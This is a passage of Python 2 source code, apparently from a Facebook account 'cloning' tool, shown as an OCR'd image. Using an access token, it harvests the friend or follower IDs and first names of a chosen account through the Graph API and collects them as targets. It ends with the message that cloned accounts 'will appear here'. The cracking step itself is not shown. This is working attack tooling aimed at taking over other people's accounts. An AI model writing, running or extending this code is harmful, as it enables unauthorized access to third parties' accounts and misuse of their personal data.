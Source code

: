 		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	   
	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		bangla2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	